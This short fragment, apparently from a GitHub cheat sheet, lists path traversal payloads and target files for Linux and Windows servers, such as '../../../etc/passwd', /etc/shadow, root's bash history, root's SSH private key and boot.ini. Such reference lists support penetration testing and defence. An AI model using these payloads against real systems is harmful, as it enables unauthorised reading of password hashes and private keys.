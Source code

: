 <h3>linux</h3>
`../../../../../../../etc/passwd passwd file
`/etc/issue system identification
`/etc/profile
`/proc/version linux kernel version
`/etc/shadow shadow file
`/root/.bash_history root command history
`/root/.ssh/id_rsa private ssh keys inside the server

<h3>windows</h3>
`../../../../../../../boot.ini
`../../../../../../../windows/win.ini
`C:\boot.ini boot options for computers with BIOS firmware